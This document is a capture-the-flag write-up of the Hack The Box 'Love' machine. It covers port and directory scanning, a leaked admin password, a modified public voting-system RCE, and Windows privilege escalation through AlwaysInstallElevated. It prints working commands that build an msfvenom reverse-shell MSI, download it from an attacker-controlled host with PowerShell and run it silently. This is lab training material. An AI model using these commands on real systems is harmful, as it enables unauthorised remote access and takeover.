

# [Love](https://app.hackthebox.com/machines/love)

```bash
nmap -p- --min-rate 10000  10.10.10.239 -Pn  
```


As I know open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p80,135,139,443,445,3306,5000 10.10.10.239 -Pn 
```


From port (443), https, we can see **'staging.love.htb'**

Let's add this ip address into '/etc/hosts' file.


Let's do directory enumeration for 'staging.love.htb'

```bash
gobuster dir -u http://staging.love.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40 -x php
```


Let's browse the page.


Let's check functionality of this page.


We can add localhost also to this page, I add port 5000 as because from nmap result I see that on port 5000 is HTTP service running.


I grab admin credentials of 'VoteAdmin' service which is running for port 80.

admin: @LoveIsInTheAir!!!! 


I also did directory enumeration for 'love.htb'

```bash
gobuster dir -u http://love.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```


Now we can see '/admin' page with credentials which I took before.


Let's search publicly known RCE for 'VotingSystem'.





I changed source code of exploit.


I got reverse shell.


user.txt


For enumeration of Windows machine, I just check 'AlwaysInstallElevated' section via below command.


```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```


While this option is set true (value=1)

Let's generate `.msi` file via `msfvenom` tool.

```bash
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=1338 -f msi -o dr4ks.msi
```


Let's open HTTP server and upload malicious reverse shell file into machine.

```bash
python3 -m http.server --bind 10.10.14.9 8080
```


```bash
powershell wget http://10.10.14.9:8080/dr4ks.msi -outfile dr4ks.msi
```


Now, execute this maliciois `.msi` file.

```bash
msiexec /quiet /qn /i dr4ks.msi
```


I got administrative shell.


root.txt

